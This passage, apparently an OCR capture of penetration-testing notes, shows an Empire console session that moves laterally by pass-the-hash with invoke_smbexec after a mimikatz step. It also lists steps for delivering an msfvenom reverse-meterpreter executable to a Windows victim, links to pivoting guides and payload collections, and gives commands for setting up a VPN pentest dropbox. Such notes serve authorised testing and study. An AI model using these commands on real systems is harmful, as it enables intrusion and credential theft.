 		(Empire: powershell/credentials/mimikatz/logonpasswords) > usemodule powershell/lateral_movement/invoke_smbexec
		(Empire: powershell/lateral_movement/invoke_smbexec) > info
		(Empire: powershell/lateral_movement/invoke_smbexec) > set ComputerName win10-x86
		(Empire: powershell/lateral_movement/invoke_smbexec) > set Listener http
		(Empire: powershell/lateral_movement/invoke_smbexec) > set Hash blablablajeff_adminpasswordhash
		(Empire: powershell/lateral_movement/invoke_smbexec) > set Domain corp.com
		(Empire: powershell/lateral_movement/invoke_smbexec) > execute
	BINGO! The agent was successfully deployed and we can now interact with it:
		(Empire: powershell/lateral_movement/invoke_smbexec) > agents
		(Empire: agents) > interact 4D9FH8GA
		(Empire: 4D9FH8GA) > 
Switching between Empire and Metasploit
	A possible integration of Metasploit and Empire can be showcased as follows:
		We use msfvenom to craft a malicious PW with a reverse meterpreter shell in it
		We setup a local meterpreter listener on localhost with Metasploit
		We then use Empire to upload the malicious PE to the Windows victim
		Finally we use Empire to execute the malicious file on the Windows victim with the Empire shell command
		And we then verify that a meterpreter session was opened on our attacker kali machine 
	Connecting to an Empire agent from an existing meterpeter sesison is also simple:
		We first create a launcher with Empire 
		We also set the listener in Empire
		Then we use the existing meterpeter session to upload and execute it with the upload and shell commands rispectively
		Once we have executed the launcher.bat, we will receive an agent call on our Empire listener

##### Pivoting (SSH-Fu)
https://nullsweep.com/pivot-cheatsheet-for-pentesters/
https://medium.com/@mishrasunny174/pivoting-to-internal-networks-using-ssh-like-a-boss-be1cd9c5ac0f
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md

#### 5 - House Keeping & Clean Up
Mostly manual, no tools.

### Reporting

#### Pentest Report Examples
https://github.com/juliocesarfort/public-pentesting-reports

### Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/danielmiessler/SecLists
https://github.com/fuzzdb-project/fuzzdb

### Pentest Dropbox
https://www.youtube.com/watch?v=D2t4ADQnBEk
[from within AWS raste-openvpn-server] wget https://git.io/vpn -O openvpn-install.sh
[from within AWS raste-openvpn-server] chmod +x openvpn-install.sh
[from within AWS raste-openvpn-server] ./openvpn-install.sh [first time for raste-dropbox-01.ovpn conf file]
[from within AWS raste-openvpn-server] ./openvpn-install.sh [second time for raste-dropbox-02.ovpn conf file]
[from within AWS raste-openvpn-server] systemctl enable openvpn
[from within VM raste-dropbox-01] sudo cp raste-dropbox-01.ovpn /etc/openvpn/openvpn.conf
[from within VM raste-dropbox-01] sudo systemctl mask sleep.target suspend.target hibernate.target hybrid-sleep.target
[from within VM raste-dropbox-01] sudo apt-get install xrdp
[from within VM raste-dropbox-01] sudo service xrdp start
[from within VM raste-dropbox-01] sudo service xrdp-sesman start
[from within VM raste-dropbox-01] sudo systemctl enable xrdp
[from within VM raste-dropbox-01] sudo systemctl enable openvpn